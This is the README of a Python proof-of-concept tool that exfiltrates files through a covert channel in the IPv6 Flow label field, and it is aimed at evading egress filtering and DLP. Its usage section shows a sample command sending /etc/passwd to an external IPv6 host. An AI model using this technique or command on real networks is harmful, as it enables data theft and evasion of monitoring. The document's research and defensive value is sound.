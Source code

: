 # IPv6teal

IPv6teal is a Python 3 tool to stealthily exfiltrate data from an internal network using a [covert channel](https://en.wikipedia.org/wiki/Covert_channel) 
built on top of the IPv6 header `Flow label` field.

It is made of 2 components:

- **[exfiltrate.py](./exfiltrate.py)**: Client-side component, used to exfiltrate data from an internal machine
- **[receive.py](./receive.py)**: Server-side component, used to received the exfiltrated data

Jump to: [Background](#Background) | [Usage](#Usage) | [F.A.Q.](#FAQ)

## Background

IPv6 packets have a [header](https://en.wikipedia.org/wiki/IPv6_packet#Fixed_header) containing a 20-bit field, `Flow label`.

![IPv6 header](https://user-images.githubusercontent.com/136675/61957346-9b870c00-afae-11e9-9ac3-4b2c0e0dedb7.png)

> **Flow label**: Originally created for giving real-time applications special service.
> When set to a non-zero value, it serves as a hint to routers and switches with multiple outbound paths 
> that these packets should stay on the same path, so that they will not be reordered.
>
> (Wikipedia)

This field can be set to an arbitrary value without impacting how the packet will be delivered to its destination.

Therefore, we can build a covert channel by storing data to exfiltrate in this field. The exfiltration script sends 1 
IPv6 packet per 20-bits of data, and the receiver script reconstructs the data by reading this field. The payload of every
IPv6 packet send contains a magic value, along with a sequence number, so the receiving end can determine _which_ IPv6 packets
are relevant for it to decode.


## Usage

Basic requirements:

- Both the client (where lies the data to exfiltrate) and the server (where the data should be exfiltrated) 
need to support IPv6 and to have an IPv6 address. For my tests, I used a $5/month DigitalOcean droplet.

- Both the client and the server need to have scapy installed (`pip install scapy==2.4.2`)

- Python 3

### Server

On the machine to which you wish to exfiltrate data, run `receive.py` as root.

```bash
$ python3 receive.py hashes

[-] Started receiver
```
### Client

On the machine where you wish to exfiltrate data, run `exfiltrate.py` as root.

```bash
$ python3 exfiltrate.py --help

usage: exfiltrate.py [-h] [--packet-sending-interval-ms SENDING_INTERVAL]
                     input_file destination

positional arguments:
  input_file            File to exfiltrate
  destination           IPv6 address where to exfiltrate data

optional arguments:
  -h, --help            show this help message and exit
  --packet-sending-interval-ms SENDING_INTERVAL
                        Number of milliseconds to wait between each IPv6
                        packet to send (default: 10)

```

Sample use:

```
$ python3 exfiltrate.py /etc/passwd 2a03:b0c0:3:d0::cee:8001  
                                                                                               
Sending 560 bytes (4480 bits) in 225 IPv6 packets...    
                                                                                                                                                     
..................................................                                                                                                                                                           
..................................................                                                                                                                                                           
..................................................                                                                                                                                                           
..................................................                                                                                                                                                           
........................                                          
                                                                                                                                           
done                                  
```



## F.A.Q.

### Couldn't we directly store the data in an ICMPv6 echo-request packet or in the payload of an IPv6 packet itself?

We definitely could. However this PoC was built for the (fictional) scenario of an enterprise network which would 
have strict egress network filtering such as ICMPv6 being blocked from the internal user network to the Internet, 
and/or where a DLP would be analyzing the payloads of IPv6/ICMPv6 packets.

Even in this case, it is unlikely that all outgoing IPv6 communications would be blocked and would therefore still
allow for data exfiltration using this technique. 

### If it fast?

Although the data being sent is compressed using GZIP, it's terribly slow. 
Each IPv6 packet sent over the network contains 20 _bits_ of data (that's two and a half ASCII characters).

During my tests I managed to transfer a 1.2 MB file of uncompressed random data in 30 minutes
across 2 machines of different DigitalOcean regions (Amsterdam and Frankfurt).

###  Is it reliable?

Absolutely not. Any IPv6 packet dropped will make the transmission fail. I intentionally did not want to 
make the tool reliable to keep it simple and avoid reimplementing a TCP-like pseudo network stack.

However, it does handle out-of-order IPv6 packets.

### Is the transmission encrypted?

No. If you are transmitting sensitive data, it's a good idea to encrypt the data on the client side before feeding it to
the exfiltration script.

### Can it handle large files?

Probably not. Maybe. In any case it will be slow.

### Why do the scripts need to run as root?

Because they craft raw IPv6 packets. If this is a problem, you can give the `cap_net_raw` capability to a 
non-superuser and have it run the scripts.

### Some packets are getting lost, what can I do?

Try to increase the value of the `--packet-sending-interval-ms` argument of the exfiltration script. 
It is 10 milliseconds by default, meaning that the programs waits 10ms before sending every new packet.
  
## About

Original idea from the paper _[Covert Channels in IPv6](https://link.springer.com/chapter/10.1007/11767831_10)_  by Norka B. Lucena, Grzegorz Lewandowski 
and Steve J. Chapin from Syracuse University.

For any question or bug report, feel free to [open an issue](https://github.com/christophetd/ipv6teal/issues/new) 
or to tweet [@christophetd](https://twitter.com/christophetd). 